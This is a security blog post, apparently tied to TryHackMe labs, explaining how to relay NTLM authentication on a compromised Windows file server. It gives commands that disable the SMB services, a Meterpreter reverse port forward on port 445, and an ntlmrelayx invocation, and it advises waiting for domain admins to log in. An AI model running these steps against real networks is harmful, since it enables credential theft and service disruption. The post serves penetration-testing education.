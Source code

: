 ```yaml
---
layout: post
title: Remote NTLM Relaying via Meterpreter
gh-badge:
  - star
  - fork
  - follow
tags:
 - TryHackMe
 - Windows
 - Active Directory
 - Cyber Security
comments: true
published: true
date: '2020-12-15'
---
```


### NetNTLM Relaying basics
NTLM Relaying is an Active Directory attack vector that commonly makes use of Man-In-The-Middle tools like Responder, MITM6, and others to intercept Active Directory protocols like SMB, HTTP, LDAP, etc to hijack a session and "relay" or redirect the intercepted session to the target host of your choise. 
It's important to understand that NetNTLM uses a challenge based request and response system, so you cannot replay NetNTLM traffic, only relay it. In order to Relay NetNTLM-Based traffic the Impacket developers have created a special tool called NTLMRelayX. NTLMRelayX brokers communications on our behalf and manages the challenge based request and response that enables us to successfully authenticate to a Server. It does so by holding the <insert protocol> session open and proxies the challenge that the server issues to the client, but never closes the session so you can authenticate to the server on an on-demand basis. In order to enable this functionality, you need to use the "-socks" flag, but by default, it will simply it will simply make use of other Impacket tools (like SecretsDump.py, if you relay to SMB, ACLPWN if you relay to LDAP/S, etc) but that's beyond the scope of what this article is trying to acomplish today. This seems really complicated, but is actually quite simple. I promise, I'm just bad at explaining overly technical topics. Impacket does a great job with documentation, if you'd like to learn more about NTLMRelayX, you can do so [here](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)

### Remote N.T.L.M. Relaying

I deem this attack vector called Remote N.T.L.M. Relaying (Never Trust Lan Man) purely because of how severe it can be. If you execute this attack on the correct host, Remote NTLM Relaying can incredbibly disruptive. This attack vector can be used on virtually any Windows host of your choosing as long as you have local Administrative rights, however, I suggest the primary target to be File Servers because these will gain the most traction. Lots of File Server Shares are often auto-mounted via Startup Scripts when a user logs onto their Account, this making it the best option in my opinion. If all users in an AD Domain have a folder that auto-mounts, you simply need to compromise the File Server, gain local Administrative Rights, and execute this attack and play the waiting game for a Domain/Enterprise Admin to log into their account and then it's game over.

### Initial Warning

As previously stated, this attack vector is incredily distruptive. It requires exactly 1 OS Restart to disable Active Directory services, and 1 OS Restart to re-enable them. If you are going to use this attack vector on an engagement, make sure you have **explicit authorization from the client**. Responsibility soley lies on the Attacker, and not myself. This is your official "This can break things, I take no responsibility for what you do. Lab it before you try it, understand the risks" and yada yada. 

### How To Preform Remote N.T.L.M. relaying

Anyways, onto the good stuff. With normal NTLM Relaying, insure you have a target selected that does not require Signing (We're going to use SMB in this demo, so I will here-on in refer to this as SMB signing exclusively). Secondly, ensure Impacket, NTLMRelayX, Meterpreter and Proxychains are all installed. All will be required for Remote NTLM relaying. Lastly, ensure that you have local administrator access, access via XFreeRDP/Remmina may break, so you should plan to fall back on rdesktop

On the victim, there's several services that need to be stopped/disabled/disabled at startup to ensure SMB services don't start, you'll need to execute the following commands:

```
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```

Ensure that all of the commands executed without failure. If successful, they should look like so:

![lanmanserver.png](https://raw.githubusercontent.com/Sq00ky/SpookySec-Blog/master/img/lanmanserver.png)

After all the services are disabled, restart the victim machine. After the machine restarts, run a quick port-scan on port 445 and ensure that it is marked as "Closed". This means you successfully disabled all the SMB-related services on the victim host. Next, you want to execute a Meterpreter shell on the target host, so we can setup a Remote Port Forward. We can do so with the following command in a Meterpreter Session:

```
portfwd add -R -L 0.0.0.0 -l 445 -p 445

```

This will capture traffic destined for our victim on remote port 445 and forward it to local port 445. 

![portfwd.png](https://puu.sh/H5I5Z/77cddab386.png)

All thats left is to proxy NTLMRelayX through proxychains and wait for the hashes to roll in. In a normal corporate network it may take a bit for a user with Local Administrative access to your target to attempt to access the SMB server, but remember, if it's an automounted script, you shouldn't have to wait too long. Back to NTLMRelayX

```
ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```

![success.png](https://i.imgur.com/Nel0cp9.png)

Some trouleshooting and tweaking may be required for this to work, this exploit is very tricky to get working and takes a lot of time and patience. Personally, I recommend looking into tweaking the Port Forwarding settings, because I think there may be a better way of doing it. Coming soon Myself and [Cryillic](https://twitter.com/Real_Cryillic) will be releasing a lab based off of this attack vector called "Holo". as of 12/15/2020 it's currently in beta testing and should be released (hopefully) by Christmas :). Keep an eye on TryHackMe's [Hacktivites Page](https://tryhackme.com/hacktivities) for an estimated release date.

As always, thanks for reading <3
